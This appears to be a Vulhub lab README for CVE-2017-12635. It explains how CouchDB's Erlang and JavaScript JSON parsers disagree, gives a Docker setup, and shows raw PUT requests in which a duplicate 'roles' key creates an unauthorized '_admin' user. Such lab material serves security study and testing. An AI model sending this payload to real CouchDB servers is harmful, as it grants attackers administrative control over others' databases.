



# Apache Couchdb Remote Privilege Escalation (CVE-2017-12635)

[中文版本(Chinese version)](README.zh-cn.md)

Apache CouchDB is an open-source document-oriented NoSQL database, implemented in Erlang. CouchDB uses multiple formats and protocols to store, transfer, and process its data. It uses JSON to store data, JavaScript as its query language using MapReduce, and HTTP for an API.

Due to differences in the Erlang-based JSON parser and JavaScript-based JSON parser, it is possible in Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit `_users` documents with duplicate keys for `roles` used for access control within the database, including the special case `_admin` role, that denotes administrative users.

Reference link.

 - https://justi.cz/security/2017/11/14/couchdb-rce-npm.html
 - https://www.exploit-db.com/exploits/44498
 - http://bobao.360.cn/learning/detail/4716.html

## Setup Environment

Compile and start environment.

```
docker-compose up -d
```

After the environment is started, browse ``http://your-ip:5984/_utils/`` to see a web page, which means Couchdb has been started successfully. But you can do nothing without authentication.

## Exploit

This is a normal request to add a user.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 90

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "password": "vulhub"
}
```

As you can see, a 403 error is returned: `{"error": "forbidden", "reason": "Only _admin may set roles"}`, which means only administrator can use the endpoint.



To bypass the restriction by sending a request containing duplicate **roles**.

```
PUT /_users/org.couchdb.user:vulhub HTTP/1.1
Host: your-ip:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 108

{
  "type": "user",
  "name": "vulhub",
  "roles": ["_admin"],
  "roles": [],
  "password": "vulhub"
}
```

Successfully created a user `vulhub`, with the password `vulhub`.



Log in.


